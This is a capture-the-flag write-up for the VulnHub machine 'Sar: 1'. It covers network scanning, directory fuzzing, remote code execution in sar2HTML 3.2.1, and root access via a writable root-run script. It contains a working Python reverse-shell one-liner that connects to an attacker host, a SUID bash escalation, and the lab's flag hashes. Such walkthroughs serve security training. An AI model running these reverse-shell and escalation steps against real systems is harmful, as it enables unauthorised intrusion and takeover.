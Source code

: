 # Information

- Name: Sar: 1
- Date Release: 15 Feb 2020
- Author: Love
- Series: Sar
- Link: https://www.vulnhub.com/entry/sar-1,425/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/Tools) with fast mode. In this case the ip's machine is 10.0.2.12.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:80:b6:4c 10.0.2.3
[*] 08:00:27:f9:32:fa 10.0.2.12
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools).The tool report that there is only one open port (80).

```Console
# python portScanr.py -i 10.0.2.12
[*] Port 80 (http) open
```

## Web 

With _whatweb_ you can enum the versions running on the web server. Nothing interesting, an Apache 2.4.29 and Ubuntu.

```Console
# whatweb http://10.0.2.12
http://10.0.2.12 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.12], Title[Apache2 Ubuntu Default Page: It works]
```
The _index.html_ is the default page of Apache.
![Apache](images/apache.png)

Let's try fuzzing with gobuster to discover directories and files.

```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://10.0.2.12
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.12
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/09/01 18:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/phpinfo.php          (Status: 200) [Size: 95357]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/09/01 18:09:00 Finished
===============================================================
```

In _robots.txt_ you can see "sar2HTML", if add it to the url you are going to see another page.
![robots](images/robots.png)
![Sar2HTML](images/sar2HTML.png)

## Exploitation

Sar2HTML is a plotting tools for system stats. The version running is 3.2.1, that is vulnerable to [RCE](https://www.exploit-db.com/exploits/47204). Lets try get a reverse shell via RCE with the reverse shell:

```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![rce](images/rce.png)

## Privilege Escalation

Lets monitorize the machine with pspy. You can see that in /var/www/html/ there are two scripts executing: _write.sh_ and _finally.sh_

```Console
bash-4.4$ cat finally.sh write.sh
#!/bin/sh

./write.sh

#!/bin/sh

touch /tmp/gateway
```
The _finally.sh_ is executing _write.sh_ by root. You can assign SUID perm to /bin/bash to be root.

```Console
bash-4.4$ echo "chmod u+s /bin/bash" >> write.sh
bash-4.4$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod u+s /bin/bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt /home/love/Desktop/user.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
427a7e47deb4a8649c7cab38df232b52
```


